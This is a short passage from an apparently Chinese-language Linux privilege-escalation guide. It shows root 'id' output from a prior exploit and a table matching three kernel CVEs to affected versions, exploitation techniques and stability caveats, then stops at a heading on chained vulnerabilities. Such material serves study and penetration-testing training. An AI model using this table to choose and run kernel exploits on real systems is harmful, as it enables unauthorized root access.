uid=0(root) gid=0(root) groups=0(root)
```

***

### ✅ 小結整理表

| CVE            | 受影響版本                | 利用方式                  | 注意事項              |
| -------------- | -------------------- | --------------------- | ----------------- |
| CVE-2021-22555 | Kernel 2.6 \~ 5.11   | OOB write + namespace | 穩定度較高             |
| CVE-2022-25636 | Kernel 5.4 \~ 5.6.10 | Heap out-of-bounds    | 可能造成 kernel panic |
| CVE-2023-32233 | Kernel ≤ 6.3.1       | nf\_tables UAF + race | 較複雜，易影響系統穩定性      |

</details>



***

### **🔗 5. 連鎖漏洞**



